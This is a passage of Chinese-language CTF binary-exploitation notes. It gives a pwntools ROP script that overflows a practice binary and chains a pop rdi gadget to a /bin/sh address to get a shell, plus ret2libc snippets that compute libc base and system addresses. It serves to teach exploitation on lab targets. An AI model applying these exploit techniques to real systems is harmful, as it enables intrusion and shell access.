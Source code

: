 即在pop rdi之前要先ret一下

```python
from pwn import *
context(log_level='debug',arch='amd64', os='linux')
pwnfile= './question_4_2_x64'
io = process(pwnfile)
#io = remote('', )
elf = ELF(pwnfile)
rop = ROP(pwnfile)


padding = 0x10  

#gdb.attach(io)
#pause()

return_addr = elf.symbols['func']
bin_sh_addr = 0x404040
pop_rdi_ret = 0x40120b
payload = b'a'* padding + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(return_addr)

# p64 => 0x0b 0x12 0x40 0x00 0x00 0x00 0x00 0x00
# p32 => 0x0b 0x12 0x40 0x00
# p16 => 0x0b 0x12
# p8  => 0x0b
# struct.pack

#payload = flat(['a'*padding, return_addr])
delimiter = 'input:'
io.sendlineafter(delimiter, payload)
io.interactive()
```

### 三、ret2libc

Tips：只能泄露已经执行过的函数的got表地址

题目提供Libc版本.so文件与不提供的区别

```python
#题目提供了libc.so文件时
libc=ELF('libc-2.23.so')
libc_base = write_addr - libc.sym['write']
system_addr=libc_base+libc.sym['system']
binsh_addr = libc_base+next(libc.search(b'/bin/sh'))
```

```python
#题目不提供libc.so文件时
from LibcSearcher import *
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')
```
